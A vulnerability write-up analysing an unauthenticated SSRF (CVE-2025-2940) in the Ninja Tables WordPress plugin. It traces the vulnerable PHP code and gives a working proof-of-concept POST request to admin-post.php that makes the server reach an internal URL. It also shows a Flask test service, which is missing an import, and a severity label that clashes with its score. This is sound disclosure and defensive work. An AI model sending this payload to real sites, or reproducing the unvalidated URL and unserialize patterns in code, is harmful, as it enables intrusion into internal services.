



# CVE-2025-2940 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Ninja Tables – Easy Data Table Builder** plugin for WordPress contains a **Server-Side Request Forgery (SSRF)** vulnerability in all versions up to and including **5.0.18**, via the `args[url]` parameter. This vulnerability allows **unauthenticated attackers** to perform **web requests** to **arbitrary locations** originating from the **web application**, and can be used to **query** and **modify** information from **internal services**.

* **CVE ID**: [CVE-2025-2940](https://www.cve.org/CVERecord?id=CVE-2025-2940)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 5.0.18
* **Patched Versions**: 5.0.19
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Ninja Tables Plugin](https://wordpress.org/plugins/ninja-tables/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Ninja Tables**: **5.0.18** (vulnerable) and **5.0.19** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

Per the CVE description, the notable location in the patch is the code handling `args[url]` — this is likely the root cause of the vulnerability since this parameter is used directly in the request flow.



In the patch, the exploitable code has been disabled (commented out with `//`).

### Vulnerable Code

```php {title="Client.php - v5.0.18" hl_lines=[3,5,7,13,15,16,17,21] data-open=true}
public static function registerAsyncRequestHandler()
{
    $action = static::makeAsyncRequestAction();

    App::addAction("admin_post_nopriv_{$action}", function() {
        
        $request = App::make('request');
        
        $requestUrl = $request->get('args.url');
        
        $requestMethod = $request->get('args.method');
        
        $client = Client::make($requestUrl);
        
        $params = $request->except(
            'action', 'args.url', 'args.method',
        )['args'];

        $callback = static::getCallback($params);

        $response = $client->{$requestMethod}('', $params);

        if (is_wp_error($response)) {
            $exception = new Exception(
                $response->get_error_message(), 500
            );
        }

        return $callback($response, $exception ?? null);
    });
}
```

The `registerAsyncRequestHandler()` function registers and handles an async endpoint in WordPress — specifically via `admin_post_nopriv_{action}`, i.e., a hook that allows unauthenticated (`nopriv`) users to send requests.

Specifically, the function processes as follows:

1. **Create a unique `action` name for the plugin**

```php {.no-header}
$action = static::makeAsyncRequestAction();

protected static function makeAsyncRequestAction()
{
    return 'wpf-async-request-' . sha1(
        App::config()->get('app.slug') // plugin name: ninja-tables
    );
}
```

`makeAsyncRequestAction()` generates a unique identifier for the plugin by concatenating a fixed prefix (`wpf-async-request-`) with the **SHA1 hash** of the plugin name (`app.slug`).

Since the plugin name is `"ninja-tables"`, the resulting value will be:

```{.no-header}
wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77
```

2. **Register the action hook with an anonymous callback**

```php {.no-header}
App::addAction("admin_post_nopriv_{$action}", function() { ... });
```

When an HTTP request is sent to `/wp-admin/admin-post.php?action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77` the logic inside the anonymous function will be invoked.

3. **Retrieve the `Request` object instance from the `App` container and read two main parameters**

```php {.no-header}
$request = App::make('request');
$requestUrl = $request->get('args.url');
$requestMethod = $request->get('args.method');
```

4. **Instantiate a `Client` object with the `baseUrl` taken from the request**

```php {.no-header}
$client = Client::make($requestUrl);

public static function make($baseUrl = '', $args = [])
{
    $args['cookies'] = $args['cookies'] ?? [];
    $args['headers'] = $args['headers'] ?? [];
    $args['options'] = $args['options'] ?? [];
    return new static($baseUrl, $args);
}
```

`Client::make()` is responsible for creating and configuring a new `Client` instance used to manage and send HTTP requests. The `$baseUrl` value is passed directly from `$requestUrl` — i.e., the URL provided by the user in `args.url`.

5. **Collect all other parameters except `action`, `args.url`, `args.method`**

```php {.no-header}
$params = $request->except(
    'action', 'args.url', 'args.method',
)['args'];
```

6. **Decode and extract the callback function from the request parameters**

```php {.no-header}
$callback = static::getCallback($params);

protected static function getCallback(&$params)
{
    $callback = unserialize(base64_decode($params['callback']));
    unset($params['callback']);
    return $callback;
}
```

`getCallback()` is used to extract a callback function provided in the `args.callback` parameter of the request.

7. **Invoke the `$requestMethod` with `$params`**

```php {.no-header}
$response = $client->{$requestMethod}('', $params);
```

For example: if `$requestMethod` is `POST` => `$response = $client->POST('', $params)`

8. **Error check and return**

```php {.no-header}
if (is_wp_error($response)) {
    $exception = new Exception(
        $response->get_error_message(), 500
    );
}

return $callback($response, $exception ?? null);
```


What happens if `$requestMethod` does not exist — i.e., `$client` calls a method that is not present in the `Client` class?

In this case, PHP will automatically invoke the magic `__call()` method declared in the `Client` class. `__call()` is designed to handle calls to non-existing methods, allowing the `Client` to perform dynamic requests based on the invoked method name.

>

Observing the **Outline tab** shows all methods, properties and functions in the file in order.




```php {title="Client.php - v5.0.18" hl_lines=[3,18,27] data-open=true}
public function __call($method, $args)
{
    if ($method === 'download') {
        return $this->downloadFile(...$args);
    }
    
    // Handles dynamic method calls like:
    // asyncGet, asyncPost and so on
    // get, post and so on
    $url = array_shift($args);

    $parsed = parse_url($url);

    if (!isset($parsed['scheme'])) {
        $url = trim($this->baseUrl, '/') . '/' . trim($url, '/');
    }

    if (str_starts_with($method, 'async')) {
        $method = substr($method, strlen('async'));
        $this->checkIfValidHttpMethod($method);
        return $this->asyncRequest(
            $url, $this->buildRequestArgs($args, $method)
        );
    }
    
    $this->checkIfValidHttpMethod($method);
    return $this->request(
        $url, $this->buildRequestArgs($args, $method)
    );
}
```

`__call()` will call `request()` if the method is not `download` and does not start with `async`, with the URL already set.

```php {title="Client.php - v5.0.18" hl_lines=[3,7] data-open=true}
protected function request($url, $args = [])
{
    if ($query = http_build_query($this->query)) {
        $url .= '?' . $query;
    }

    $response = wp_remote_request($url, $args);

    if (is_wp_error($response)) {
        throw new Exception($response->get_error_message(), 500);
    }
    
    $this->cookies = array_merge(
        $this->cookies,
        wp_remote_retrieve_cookies($response)
    );

    return $this->makeResponse($response);
}
```

`request()` builds the query and sends the request using `wp_remote_request()` — the primary **SSRF sink**.

### Flow


graph TD
A["HTTP Request"] --> B["admin_post_nopriv_{action}"]
B --> C["$request->get('args.url') / $request->get('args.method')"]
C --> D["$client->{$requestMethod}('', $params)"]
D --> E["Client::__call() → request() → wp_remote_request() ← SSRF sink"]
E --> F["Response → callback → HTTP Response"]


## Exploit

### Local Server

Create a simple local service with Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```
POST /wp-admin/admin-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Connection: close

action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[url]=http://localhost:8001/delete?id=1&args[method]=GET&args[name]=Tokuda
```

**Result**:



## Conclusion

The SSRF vulnerability in **Ninja Tables ≤ 5.0.18** shows that the `args[url]` parameter provided by the client is used directly to perform server-side requests without validation, allowing an unauthenticated attacker to force the application to access arbitrary destinations. The patch in **≥ 5.0.19** removed the unsafe code and mitigated this attack vector.

## Key takeaways

* Upgrade immediately to **5.0.19** or later.
* Do not use client input directly as a request URL — validate/normalize before use.
* Implement allowlists for hosts/ports and block private IP ranges (127.0.0.0/8, 10.0.0.0/8, 192.168.0.0/16, etc.).
* Avoid registering `admin_post_nopriv_*` endpoints for functions that perform outbound requests, or add proper permission/CSRF controls.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Ninja Tables Plugin <= 5.0.18 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-03-cve-2025-2940/  

